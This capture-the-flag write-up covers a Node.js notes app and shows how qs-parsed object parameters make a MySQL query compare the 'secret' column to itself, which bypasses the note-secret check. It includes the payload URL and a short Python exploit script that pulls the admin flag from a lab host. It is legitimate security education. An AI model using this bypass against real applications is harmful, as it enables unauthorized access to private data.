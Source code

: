 ### Reading the source code

For the purpose of simplicity I will list here only important functions and files,

for more details you can view the full files in this directory.

**Init.db**
```SQL
-- Table structure for table `users`
--

DROP TABLE IF EXISTS `users`;
CREATE TABLE IF NOT EXISTS `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL UNIQUE,
  `password` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;

CREATE TABLE IF NOT EXISTS `notes` (
  `note_id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL,
  `secret` varchar(255) NOT NULL,
  `note` varchar(255) NOT NULL,
  PRIMARY KEY (`note_id`)
) ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;
```

**Start of index.js**
```JS
const express = require('express');
const bodyParser = require('body-parser');
const crypto=require('crypto');
var session = require('express-session');
const db = require('./database');
const middleware = require('./middlewares');

const app = express();


app.use(bodyParser.urlencoded({
extended: true
}))

app.use(session({
    secret: crypto.randomBytes(32).toString("hex"),
    resave: true,
    saveUninitialized: true
}));
```
**View endpoint**
```JS
app.get('/viewNote', middleware.auth, (req, res) => {
    const { note_id,note_secret } = req.query;

    if (note_id && note_secret){
        db.getNoteById(note_id, note_secret, (err, notes) => {
            if (err) {
            return res.status(500).json({ error: 'Internal Server Error' });
            }
            return res.json(notes);
        });
    }
    else
    {
        return res.status(400).json({"Error":"Missing required data"});
    }
});
```

**Get note by ID endpoint**
```JS
function getNoteById(noteId, secret, callback) {
  const query = 'SELECT note_id,username,note FROM notes WHERE note_id = ? and secret = ?';
  console.log(noteId,secret);
  pool.query(query, [noteId,secret], (err, results) => {
    if (err) {
      console.error('Error executing query:', err);
      callback(err, null);
      return;
    }
    callback(null, results);
  });
}
```

**Insert flag as note in the admin account**
```JS
function insertAdminNoteOnce(callback) {
  const checkNoteQuery = 'SELECT COUNT(*) AS count FROM notes WHERE username = "admin"';
  const insertNoteQuery = 'INSERT INTO notes(username,note,secret)values(?,?,?)';
  const flag = process.env.DYN_FLAG || "placeholder";
  const secret = crypto.randomBytes(32).toString("hex");

  pool.query(checkNoteQuery, [], (err, results) => {
    if (err) {
      console.error('Error executing query:', err);
      callback(err, null);
      return;
    }

    const NoteCount = results[0].count;

    if (NoteCount === 0) {
      pool.query(insertNoteQuery, ["admin", flag, secret], (err, results) => {
        if (err) {
          console.error('Error executing query:', err);
          callback(err, null);
          return;
        }
        console.log(`Admin Note inserted successfully with this secret ${secret}`);
        callback(null, results);
      });
    } else {
      console.log('Admin Note already exists. No insertion needed.');
      callback(null, null);
    }
  });
}
```

So this application basically have these functionalities :

- Register an account
- Login to account
- Profile view
- Add note
- View note

Also, when starting the program it automatically calls `insertAdminNoteOnce` function, which will insert the flag as a note with a random 32 hex secret in admin account.

To view a note you need to provide 2 GET parameters : `note_id` & `note_secret`.

So how can we view the flag? Clearly, we can't bruteforce a 32 random bytes secret.

### Analyzing

We can easily get the note id, by looking at the table creation : `AUTO_INCREMENT=66` which means that the ID starts from 66.

For the note secret, looking at the first few lines of `index.js` we can see an interesting line :
```JS
app.use(bodyParser.urlencoded({
extended: true
}))
```

What does `extended` means? From expressjs docs :

> The extended option allows to choose between parsing the URL-encoded data with the querystring library (when false) or the qs library (when true). The “extended” syntax allows for rich objects and arrays to be encoded into the URL-encoded format, allowing for a JSON-like experience with URL-encoded.

Perfect. so if we passed our GET query like this : `/viewNote?note_id=66&note_secret[c]=d`

It would be interpreted as :
```JS
note_id = 66
note_secret= {'c':'d'}
```

The viewNote route will then call the `getNotebyId` function, which will basically construct a SELECT query with our inputs :

```JS
function getNoteById(noteId, secret, callback) {
  const query = 'SELECT note_id,username,note FROM notes WHERE note_id = ? and secret = ?';
  console.log(noteId,secret);
  pool.query(query, [noteId,secret],
```

When you pass a javascript object to SQL, it treats the key as column and the value as the value of that column, in simpler terms our query is going to be like this :

```SQL
SELECT note_id,username,note FROM notes WHERE note_id = 66 and secret = `c` = 'd'
```

Backticks (`) meaning in SQL : 

> In MySQL, backticks are special syntax used for encapsulating identifiers like table and column names.

So if `c` was a column name, it will compare all the values in that column with `secret` which would result in `true` ( boolean value ) if at least one value appeared in both columns (c and secret) then compare it with `d`.

So if we passed this GET query : `/viewNote?note_id=66&note_secret[secret]=1`

It would be interpreted in SQL as :
```SQL
SELECT note_id,username,note FROM notes WHERE note_id = 66 and secret = `secret` = '1'
```

so ```secret = `secret` = 1``` will evaluate to ```true = '1'``` which is always true in MySQL.

### Exploiting

Because of jailing we need to write a simple and fast script using `requests` session :

```py
import requests


sess = requests.Session()


url = "http://169.254.55.45:5000/"


data = {"username":"yonko123","password":"yonko123"}

print(sess.post(url+"register", data=data).text)

print(sess.post(url+"login", data=data).text)

print(sess.get(url+"viewNote?note_id=66&note_secret[secret]=1").text)
```

And we get the flag :

![Screenshot (202)](https://github.com/user-attachments/assets/a9bf7ae8-4e41-422c-9d30-28b6395a4052)
